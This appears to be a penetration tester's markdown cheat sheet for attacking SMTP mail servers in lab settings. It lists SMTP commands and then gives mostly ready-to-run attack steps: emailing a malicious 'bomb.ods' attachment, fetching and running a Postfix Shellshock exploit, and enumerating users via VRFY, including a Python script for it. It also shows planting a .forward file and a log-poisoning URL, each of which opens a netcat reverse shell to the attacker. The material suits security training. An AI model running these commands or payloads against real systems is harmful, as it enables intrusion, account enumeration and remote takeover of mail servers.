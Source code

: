 ### SMTP Commands

|**Command**|**Description**|
|---|---|
|`AUTH PLAIN`|AUTH is a service extension used to authenticate the client.|
|`HELO`|The client logs in with its computer name and thus starts the session.|
|`MAIL FROM`|The client names the email sender.|
|`RCPT TO`|The client names the email recipient.|
|`DATA`|The client initiates the transmission of the email.|
|`RSET`|The client aborts the initiated transmission but keeps the connection between client and server.|
|`VRFY`|The client checks if a mailbox is available for message transfer.|
|`EXPN`|The client also checks if a mailbox is available for messaging with this command.|
|`NOOP`|The client requests a response from the server to prevent disconnection due to time-out.|
|`QUIT`|The client terminates the session.|

#### send email with sendemail
```bash - kali
sendemail -f 'jonas@localhost' \
   -t 'mailadmin@localhost' \
   -s 192.168.120.132:25 \
   -u 'Your spreadsheet' \
   -m 'Here is your requested spreadsheet' \
   -a bomb.ods
```

#### Postfix SMTP Linux Shellshock RCE - USERNAME NEEDED
```bash - kali
wget https://raw.githubusercontent.com/3mrgnc3/pentest_old/master/postfix-shellshock-nc.py
```

[[1._rlwrap]]

```bash - kali
python postfix-shellshock-nc.py $TARGET $USER $KALI 443
```

#### User enumeration tool
```bash - kali
smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t $TARGET | grep exists | awk '{print $2}' > users
```

#### nmap
```bash - kali
nmap --script smtp-commands.nse -pT:25 $TARGET
```

```bash 
sudo nmap $TARGET -p25 --script smtp-open-relay -v
```


#### Mail forward RCE
Found a .forward file in user's directory by SMB.

`/usr/bin/procmail -f-`

```bash - kali
echo "|nc $KALI 443 -e /bin/bash" > .forward
```

![[rlwrap]]

```bash - kali
smbclient \\\\$TARGET\\<SHARE> -U "<USER>%<PASSWORD>"
```

```bash - kali
put .forward
```

```bash - kali
exit
```

#### Send mail with netcat
```bash - kali
nc $TARGET 25
```

```bash - kali
HELO hacker
```

```bash - kali
mail from:<USER@localhost>
```
OR
```bash - kali
mail from:hacker@example.org
```

```bash - kali
rcpt to:<USER@HOST>
```
EXAMPLE : `RCPT TO:lhale@victim`

```bash - kali
DATA
```

Insert email body

```bash - kali
.
```

```bash - kali
QUIT
```

####  Log Poisoning 
symfonos vulnhub - https://0xw0lf.github.io/2020/03/08/Vulnhub-Symfonos1/
LFI to RCE - https://liberty-shell.com/sec/2018/05/19/poisoning/

>......campaign/count_of_send.php?pl=/var/mail/helios&cmd=nc%20-e%20/bin/bash%20$KALI%20443


#### User verification script

Usage 
```bash
python3 vrfy.py userlist.txt output.txt
```

```python 3
import socket
import sys

if len(sys.argv) != 3:
    print("Usage: vrfy.py <userlist.txt> <output.txt>")
    sys.exit(0)

# Input and output file names
user_list_file = sys.argv[1]
output_file = sys.argv[2]

# Read the list of users from the file
try:
    with open(user_list_file, 'r') as file:
        users = file.readlines()
except FileNotFoundError:
    print(f"Error: File '{user_list_file}' not found.")
    sys.exit(1)

# Open the output file in write mode
try:
    with open(output_file, 'w') as outfile:
        for user in users:
            user = user.strip()  # Remove any leading/trailing whitespace or newline characters
            if user:  # Skip empty lines
                try:
                    # Create a new socket for each user
                    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                    s.connect(("10.129.16.13", 25))

                    # Receive the banner
                    banner = s.recv(1024)
                    outfile.write(f"Banner: {banner.decode('utf-8')}\n")  # Write banner to output file

                    # Send VRFY command
                    s.send(('VRFY ' + user + '\r\n').encode('utf-8'))  # Encode string to bytes
                    result = s.recv(1024)
                    result_decoded = result.decode('utf-8')
                    print(f"VRFY {user}: {result_decoded}")  # Print result
                    outfile.write(f"VRFY {user}: {result_decoded}\n")  # Write result to output file

                    # Close the socket
                    s.close()

                except Exception as e:
                    error_message = f"Error verifying {user}: {e}"
                    print(error_message)  # Print error
                    outfile.write(error_message + "\n")  # Write error to output file

except Exception as e:
    print(f"Error writing to output file '{output_file}': {e}")
    sys.exit(1)
```